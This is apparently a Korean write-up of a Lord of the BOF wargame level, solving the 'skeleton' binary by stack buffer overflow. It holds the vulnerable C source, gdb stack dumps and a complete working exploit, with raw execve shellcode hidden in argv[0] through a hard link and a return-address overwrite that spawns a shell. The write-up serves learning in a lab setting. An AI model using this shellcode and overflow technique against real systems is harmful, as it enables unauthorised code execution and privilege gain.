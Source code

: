 ============================================================================================================
[lob] vampire
============================================================================================================

.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :argv[1]의 주소값 변경;

    :RET 주소를 argv[1] 주소로 변경하여 공격 진행;
    
    stop

    @enduml

|

Source Analysis
============================================================================================================


해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
    The Lord of the BOF : The Fellowship of the BOF
        - skeleton
        - argv hunter
    */

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i, saved_argc;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        // argc saver
        saved_argc = argc;

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // ultra argv hunter!
        for(i=0; i<saved_argc; i++)
            memset(argv[i], 0, strlen(argv[i]));
    }


|

Memory Structure
============================================================================================================


스택에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

Segmentation fault
============================================================================================================

버퍼오버플로우가 일어나는 지점을 확인합니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./skeleton `python -c 'print "a"*47'`
    stack is still your friend.

    $ ./skeleton `python -c 'print "a"*47+"\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================


argv[0]에 쉘코드 삽입
------------------------------------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 \x2f 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않습니다.

\x2f가 없는 쉘코드로 파일명을 생성하도록 합니다.

.. code-block:: console
    
    $ ln skeleton2 `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

    $ gdb -q `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

    (gdb) b* main
    Breakpoint 1 at 0x8048500
    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/vampire/▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒P▒▒▒bWR▒▒▒QX]R▒▒PS▒▒1Ұ
                                             ̀ `python -c 'print "a"*47+"\xbf"'`

    /bin/bash: /home/troll/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()
    (gdb) x/100x $esp

    ==========================================================================
    0xbffffa0c:     0x400309cb      0x00000002      0xbffffa54      0xbffffa60
    0xbffffa1c:     0x40013868      0x00000002      0x08048450      0x00000000
    0xbffffa2c:     0x08048471      0x08048500      0x00000002      0xbffffa54
    0xbffffa3c:     0x08048390      0x080486ac      0x4000ae60      0xbffffa4c
    0xbffffa4c:     0x40013e90      0x00000002      0xbffffb4c      0xbffffbe6
    0xbffffa5c:     0x00000000      0xbffffc17      0xbffffc39      0xbffffc43
    0xbffffa6c:     0xbffffc51      0xbffffc70      0xbffffc80      0xbffffc99
    0xbffffa7c:     0xbffffcb4      0xbffffcbf      0xbffffccd      0xbffffd0e
    (중략)
    0xbfffff5c:     0x35333b31      0x682f003a      0x2f656d6f      0x706d6176
    0xbfffff6c:     0x2f657269      0x90909090      0x90909090      0x90909090
    0xbfffff7c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffff8c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffff9c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffac:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffbc:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffcc:     0x90909090      0x90909090      0xba50c031      0x11111111
    0xbfffffdc:     0x1e1ec281      0xba525762      0x11111111      0x511ec281
    0xbfffffec:     0x89525d58      0x895350e3      0xb0d231e1      0x0080cd0b
    0xbffffffc:     0x00000000      Cannot access memory at address 0xc0000000
    ==========================================================================

program명 주소를 찾아서 RET로 덮어씌우면 됩니다.


RET 주소를 argv[0] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

filename : nop(100 byte) + shellcode (39 byte) 

argv[1] : nop(44 byte) + argv[0] address

.. code-block:: console

    $ ./`python -c 'print "\x90"*100+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'` `python -c 'print "a"*44+"\xbc\xff\xff\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒▒▒▒

    bash$ whoami
    skeleton
    bash$ my-pass
    euid = 510
    shellcoder
